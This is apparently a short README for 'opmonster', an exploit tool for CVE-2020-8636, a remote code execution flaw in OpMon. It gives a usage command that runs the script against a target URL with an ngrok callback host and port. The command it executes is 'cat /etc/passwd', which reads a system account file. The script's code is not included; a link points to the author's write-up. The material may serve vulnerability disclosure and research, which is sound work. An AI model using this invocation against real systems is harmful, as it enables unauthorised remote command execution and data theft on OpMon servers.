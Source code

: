 # CVE-2020-8636 EXPLOIT
### OPMONSTER by @phor3nsic

<img src="img/opmonster.png">
  
  
 ```
 python3 opmonster.py https://vulnhost.com myhost.ngrok.io 80 "cat /etc/passwd"
 ```

### Remote code execution in Opmon

[More info](https://phor3nsic.gitbook.io/aboutme/articles/three-cves-on-opmon)


###### tags: `CVE-2020-8636` `exploit` `opmon` `opmonster` `RCE` `phor3nsic`
